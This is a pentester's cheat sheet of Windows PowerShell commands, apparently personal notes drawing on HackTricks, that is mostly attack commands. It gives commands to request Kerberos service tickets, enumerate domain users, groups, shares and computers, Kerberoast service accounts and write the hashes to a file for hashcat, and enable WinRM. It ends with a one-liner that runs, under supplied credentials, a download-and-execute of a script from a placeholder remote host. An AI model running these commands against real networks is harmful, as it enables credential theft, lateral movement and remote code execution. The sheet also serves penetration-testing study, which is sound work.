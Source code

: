 Windows Powershell Commands
*****************************

# https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters

Request Service Ticket with Kerberos
######################################

.. code-block:: console

   Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/xor-app23.xor.com:1433'

Enumerate Users
###################

.. code-block:: console

   Get-NetUser | select cn
   Get-LocalUser | ft Name,Enabled,Description,LastLogon
   Get-ChildItem C:\Users -Force | select Name

Enumerate Groups
##################

.. code-block:: console

   Get-NetGroup

Enumerate shared folders
############################

.. code-block:: console

   Get-NetShare

Find other computers in the network
#######################################

.. code-block:: console

   Get-NetComputer

Find other OS in network
#############################

.. code-block:: console

        Get-NetComputer -fulldata | select operatingsystem

Find Windows OS name and other info
########################################

.. code-block:: console

   systeminfo /fo csv | ConvertFrom-Csv | select OS*, System*, Hotfix* | Format-List

Invoke Kerberos and the krg5t hash
######################################

.. code-block:: console

   Import-Module .\Invoke-Kerberoast.ps1 ; Invoke-Kerberoast -Identity sqlServer -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.txt

Invoke-kerberos.ps1 file
###########################

.. code-block:: console

   need to find this

Enable WinRM (Remote PS)
###########################

.. code-block:: console

   enable-psremoting -force #This enables winrm
   Get-NetConnectionProfile |
     Where{ $_.NetWorkCategory -ne 'Private'} |
     ForEach {
       $_
       $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
     }

OS Version
###############

Current OS version

.. code-block:: console

   [System.Environment]::OSVersion.Version 

SUDO
######

Create a Credential Object

.. code-block:: console

        $pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
        $cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $pass)

For local

.. code-block:: console

   Start-Process -Credential ($cred)  -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://<RHOST>:<RPORT>/ipst.ps1')"

   


